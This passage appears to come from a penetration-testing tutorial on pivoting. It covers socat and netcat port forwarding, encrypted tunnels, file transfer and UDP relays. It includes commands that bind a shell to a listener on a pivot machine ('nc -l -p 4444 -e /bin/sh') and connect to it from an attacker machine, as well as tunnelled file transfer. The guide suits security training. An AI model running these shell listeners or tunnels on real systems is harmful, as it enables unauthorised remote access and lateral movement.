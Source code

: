 ```bash

# Socat with authentication and encryption
# Password-protected tunnel
socat OPENSSL-LISTEN:443,cert=server.crt,key=server.key,fork,verify=0 TCP:localhost:22

# Why Socat is versatile for pivoting:
# - Supports numerous protocols (TCP, UDP, SSL, HTTP)
# - Built-in encryption capabilities
# - Bidirectional data transfer
# - Works with files, devices, and network sockets
# - Excellent for relay and gateway scenarios
```

### **Netcat for Simple Port Forwarding**

**What Netcat provides:** Lightweight networking utility for reading and writing data across network connections, often called the "network Swiss Army knife."

**Why Netcat is useful for pivoting:** Minimal footprint, available on most systems, simple syntax, and effective for basic tunneling scenarios.

```bash
# Basic Netcat port forwarding
# Simple port relay using named pipes (Linux)
mkfifo /tmp/pipe
nc -l -p 8080 < /tmp/pipe | nc 192.168.1.100 80 > /tmp/pipe

# Alternative method using shell redirection
nc -l -p 8080 -e /bin/sh -c "nc 192.168.1.100 80"

# Netcat reverse tunnel
# On pivot machine
nc -l -p 4444 -e /bin/sh

# On attacker machine
nc pivot.com 4444

# Netcat with SSL/TLS using ncat (Nmap version)
# SSL server
ncat --ssl -l -p 443 -c "nc 192.168.1.100 80"

# SSL client
ncat --ssl pivot.com 443

# Netcat for file transfer through tunnel
# Send file
nc -l -p 8080 < file.txt

# Receive file
nc pivot.com 8080 > received_file.txt

# Netcat UDP tunneling
# UDP port forwarding
nc -u -l -p 53 -c "nc -u 192.168.1.10 53"

# Netcat limitations for pivoting:
# - No native encryption (except ncat)
# - Limited to single connections (no forking)
# - Basic functionality compared to specialized tools
# - Platform-specific behavior variations

# When to use Netcat for pivoting:
# - Simple, temporary port forwarding needs
# - Minimal footprint requirements
```